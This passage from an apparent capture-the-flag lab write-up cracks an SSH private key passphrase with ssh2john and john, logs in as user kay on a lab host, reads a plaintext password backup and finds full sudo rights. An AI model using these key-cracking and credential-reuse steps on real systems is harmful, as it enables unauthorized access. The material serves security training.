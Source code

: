 ```bash
ssh2john id_rsa > hash
```

After converting it, we can crack it using `john` :

```bash
❯ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
beeswax          (id_rsa)     
1g 0:00:00:00 DONE (2024-12-12 03:05) 3.030g/s 250763p/s 250763c/s 250763C/s behlat..bammer
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

We found a valid passphrase, ***beeswax***, so let's log in as Kay:

```bash
❯ ssh -i id_rsa kay@10.10.220.168
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.4.0-119-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.


Last login: Mon Apr 23 16:04:07 2018 from 192.168.56.102
kay@basic2:~$ 
```

---
## Shell as Kay

This is now so easy, there is a password backup in Kay's home directory, after opening the file we get Kay password:

```bash
kay@basic2:~$ cat pass.bak 
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```

After getting it we run `sudo -l` to see if we have any sudoers privilege and we can now use any binary as root:

```bash
kay@basic2:~$ sudo -l
Matching Defaults entries for kay on basic2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User kay may run the following commands on basic2:
    (ALL : ALL) ALL
```
